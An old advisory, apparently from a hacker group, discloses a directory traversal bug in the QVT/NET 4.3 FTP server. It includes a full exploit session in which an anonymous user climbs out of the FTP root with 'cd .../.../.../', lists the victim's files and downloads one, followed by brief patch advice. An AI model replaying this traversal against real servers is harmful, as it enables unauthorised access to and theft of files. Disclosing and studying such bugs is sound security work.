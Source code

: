 INFO
----



    ======================================================================

              QVT/NET 4.3 FTP server Directory Traversal


    Author: alt3kx! <alt3kx@raza-mexicana.org>
    Date: 2001-05-22
    Site: www.raza-mexicana.org

    Greet to: _0x90_, dr_fdisk^, Dex, PaTa
    Teams: Raregazz - X-ploit and S0d

    vicente F0x no rulas wey!
    ======================================================================
    ------------------------=[Brief Description]=-------------------------

    QVT/NET FTP Server is an FTP server for Windows 9x/NT/2000.
    A bug  allows  any user to change to any directory and see files to PATH
    also GET files remotely.

    ----------------------------=[Plataforms]=-------------------------------

    Windows 9.x
    Windows NT
    windows 2000


    -----------------------------=[Summary]=---------------------------------


    When sending the command "CWD ..." (or "cd ..." in the default FTP
    client), the server will go one directory up.



    EXploit:


    C:\>ftp server.vulnerable.com
    Connected to server.vulnerable.com.
    220 shell FTP server (QVT/Net 4.3) ready.
    User (server.vulnerable.com:(none)): anonymous
    331 Guest login OK, please send real ident as password.
    Password:
    230 Guest login OK, access restrictions apply.
    ftp> cd ..
    501 CWD command not allowed.

    SO THE BUG... ...

    ftp>cd .../.../.../.../.../.../
    250 CWD command successful.
    ftp> dir
    200 PORT command successful.
    150 Opened data connection for 'ls' (server.vulnerable.com,1105) (0 bytes).
    -rwxrwxrwx 1 nobody system       246928  Jan 18 13:10 nc.exe
    drwxrwxrwx 1 nobody system            0  Jan 18 15:39 Netscape 6
    drwxrwxrwx 1 nobody system            0  Jan 18 14:50 Netscape 6 Setup
    -rwxrwxrwx 1 nobody system      3209110  Jan 19 10:51 icq.exe
    -rwxrwxrwx 1 nobody system      6330449  Jan 19 12:01 porn.exe
    drwxrwxrwx 1 nobody system            0  Jan 18 17:44 norton
    drwxrwxrwx 1 nobody system            0  Jan 19 11:14 Program Files
    drwxrwxrwx 1 nobody system            0  Jan 19 12:04 plugins

    .
    .
    .
    .

    -rwxrwxrwx 1 nobody system            0  May  4 13:05 hacksites.txt
    drwxrwxrwx 1 nobody system            0  May  4 16:51 XXXX
    drwxrwxrwx 1 nobody system            0  May  8 13:17 teens
    drwxrwxrwx 1 nobody system            0  May  8 13:18 tmp
    -rwxrwxrwx 1 nobody system          168  May 21 19:07 raza-alt3kx.txt
    226 Transfer complete.
    ftp: 7707 bytes received in 0.35Seconds 21.96Kbytes/sec.

    ftp> get raza-alt3kx.txt
    200 PORT command successful.
    150 ASCII data connection for raza-alt3kx.txt (server.vulnerable.com,1106)
    (168 bytes).
    226 Transfer complete.
    ftp: 168 bytes received in 0.02Seconds 8.40Kbytes/sec.
    ftp>quit
    221 Goodbye.



    C:\>type raza-alt3kx.txt

    Bug discovered by alt3kx! <alt3kx@raza-mexicana.org>


    C:\>


    -------------------------------=[Patch]=---------------------------------

    The recomended action is to changue the persmissions or define
    individual directory for users anonymous with files no compromise.

    -------------------------=[Company Compromise]=--------------------------

    Company:

    http//www.qpc.com